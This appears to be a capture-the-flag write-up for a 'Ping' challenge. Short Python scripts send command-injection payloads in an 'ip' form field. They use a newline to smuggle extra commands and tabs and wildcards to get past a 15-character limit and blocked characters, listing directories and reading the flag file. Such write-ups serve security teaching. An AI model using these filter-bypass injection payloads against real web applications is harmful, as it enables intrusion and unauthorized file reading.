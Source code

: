 # Ping #
=============

## Intended Solution ##
---------------
### Restrict ###
* 15 Characters limit
* Blocked some system command
* Blocked some special characters

### Payload ###
* List directory
```python
import requests
payload = "\nls"
print requests.post("http://404.polyu.work:12337/Ping/", data={'ip':payload}).text
# index.php
```

* List parent directory
```python
import requests
payload = "\nls\t../"
print requests.post("http://404.polyu.work:12337/Ping/", data={'ip':payload}).text
# Ping comehereifyouwanttheflag error.log html
```

* List `../comehereifyouwanttheflag` directory
```python
import requests
payload = "\nls\t../c*"
print requests.post("http://404.polyu.work:12337/Ping/", data={'ip':payload}).text
# youneverreadthis
```

* Read `../comehereifyouwanttheflag/youneverreadthis`
```python
import requests
#payload = "\n/b*/ca?\t../c*/y*" <- this payload too long
payload = "\n/b*/ca?\t../*/*"
print requests.post("http://404.polyu.work:12337/Ping/", data={'ip':payload}).text
# flag{omg_you_finally_break_it}
```